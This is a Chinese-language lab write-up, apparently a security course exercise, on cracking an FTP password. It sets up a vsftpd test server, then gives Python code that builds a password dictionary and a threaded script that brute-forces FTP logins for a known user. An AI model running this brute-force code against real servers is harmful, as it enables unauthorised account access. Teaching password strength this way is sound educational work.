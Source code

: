 ﻿# 程序破解FTP服务器密码

标签（空格分隔）： python

---

##1、实验目的
通过开发FTP口令破解程序，认识到如何设置一个强壮的的口令以及其对系统安全的重要性。

##2、 实验内容
选用一种熟悉的语言编写FTP口令破解程序。
(1) 有一FTP服务器，事先设置好了一对用户名和密码。其中用户名已知，密码未知，但知道是一个不大于4位的纯数字密码。程序的功能是对FTP服务器该用户的密码进行暴力破解，并记录破解所用的时间。
(2) 将密码设置成4位的含有数字、字母、特殊符号(如*^%@等)的字符密码，修改程序进行破解，记录破解所用的时间；再将密码设置成8位的含有各类字符的密码，再进行破解，记录破解结果。

##3、 实验准备
架设一个简单的FTP服务器，分配用户，并按实验内容设置密码。


----------
**1、在ubuntu系统中检查是否安装了vsftpd**

> vsftpd –version

如果未安装用一下命令安装
> sudo apt-get install vsftpd

安装完成后，再次输入vsftpd -version命令查看是否安装成功

**2、新建一个文件夹用于FTP的工作目录**
> sudo mkdir /home/ftp

**3、新建FTP用户并设置密码以及工作目录**
>sudo useradd -d/home/ftp -s /bin/bash ftpname
passwd ftpname(设置密码)

**4、配置vsftpd配置文件**

反正位置就在/etc/vsftpd.conf，怎么配置自己Google咯

**5、启动vsftpd服务**
>sudo service vsftpd start


----------
#排列组合生成密码字典

```python
import itertools
for i in itertools.combinations_with_replacement('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789,./<>?;:\'\"[{]}\\|`~!@#$%^&*()_-+=', 4):
	print (''.join(i)) 
```


----------
#爆破主函数
```python
#coding=utf8
import threading
import ftplib
import socket
import sys
import time
def ftp(i,j):＃具体的执行函数，由创建进程时的target指向
    ftp=ftplib.FTP('192.168.48.181')#ftp服务器的ip地址
    try:
        user="ftpname"  #用户名已知 为ftpname
        passwd=j
        ftp.login(user,passwd)
        hand=open('aa.txt','a+')
        hand.write(user+":"+passwd+"\n") #将正确的用户名密码写入文件aa中
        print user+":"+passwd+"\n"
    except ftplib.error_perm:
	    print "passwd is wrong"
def main():  
    pshand=open("passwd1.txt","r")#passwd1.txt是字典，由tt.py生成
    listpass=[]
    threads=[]
    for ps in open("passwd1.txt","r"):
        lineps=pshand.readline().strip('\n')
        listpass.append(lineps)
    i="ftpname"
    for j in listpass:
        command="%s %s" %(i,j)
        print command
        t=threading.Thread(target=ftp,args=(i,j))
        threads.append(t)
    for i in range(len(threads)):
        threads[i].start()
        time.sleep(0.08)#经测试，小于0.05秒后将报线程过多的错误
    print 'finished'    
if __name__=='__main__':
    main()
```

	
